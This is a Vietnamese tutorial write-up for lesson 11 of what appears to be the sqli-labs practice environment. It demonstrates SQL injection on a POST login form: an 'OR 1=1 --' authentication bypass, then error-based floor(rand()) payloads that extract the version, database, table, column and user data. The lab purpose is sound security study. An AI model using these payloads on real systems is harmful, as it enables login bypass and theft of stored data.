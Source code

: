 # Những việc làm được với lesson-11
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-11

![](../images/lesson11/screen.png)

Ta sẽ nhập ký tự đặc biệt và các ký tự và `username` và `password`. Sau đó sẽ được xuất ra lỗi như dưới đây 

![](../images/lesson11/screen_3.png)

Một method post cũng giống như một truy vấn có cấu trúc của `username` `password`. Nếu `username` và `password` đúng sẽ được pass qua.
```
SELECT * FROM users WHERE username = 'xxx@xxx.xxx' AND password = md5('1234');
```
Để có thể pass qua được mà không có `username` và `password` thì ta cần thêm một điều kiện luôn đúng nối ở đằng sau username 
```
SELECT * FROM users WHERE username = 'xxx@xxx.xxx' OR 1 = 1 LIMIT 1 -- ' ] AND password = md5('1234');
```
1. Pass qua đăng nhập 

Quay lại bài 11 này thì lệnh post này cũng giống như một truy vấn vậy. Ta sẽ cần tìm cấu trúc của nó và thêm điều kiện luôn đùng nối đằng sau truy vấn. Điều kiện luôn đúng là 
```
OR 1 = 1 -- 
```

![](../images/lesson11/screen_1.png)

Sau khi pass được qua ta có thể sử dụng limit để có thể thay đổi user khác 
```
' OR 1 = 1 limit 1,1 -- 
```

![](../images/lesson11/screen_2.png)

2. Truy xuất dữ liệu. 

Ta thấy ở bài này có xuất ra lỗi. Vậy ta có thể sử dụng được kiểu error-based để có thể xem được cơ sở dữ liệu của bài này. Ta đã có được cấu trúc truy vấn của bài này ở trên rồi 
```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((@@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson11/screen_4.png)

- Lấy tên DB hiện tại 
```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

Chúng ta làm tương tự bài 5 để có được toàn bộ cơ sở dữ liệu sẽ mất khá nhiều thời gian. Ở đây tôi làm mẫu một số ví dụ 

3. Hiển thị table của một DB nào đó đã biết tên

```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson11/screen_7.png)

4. Hiển thị tên cột trong một bảng 

```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson11/screen_8.png)

5. Show từng dữ liệu trong từng cột của một bảng 

```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((select id from security.users limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson11/screen_9.png)

6. Show tên của từng DB 
```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 1,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson13/screen_2.png)

Ta có thể thấy hết được dữ liệu bằng cách thay đổi limit như ta đã từng làm ở các lesson trước 
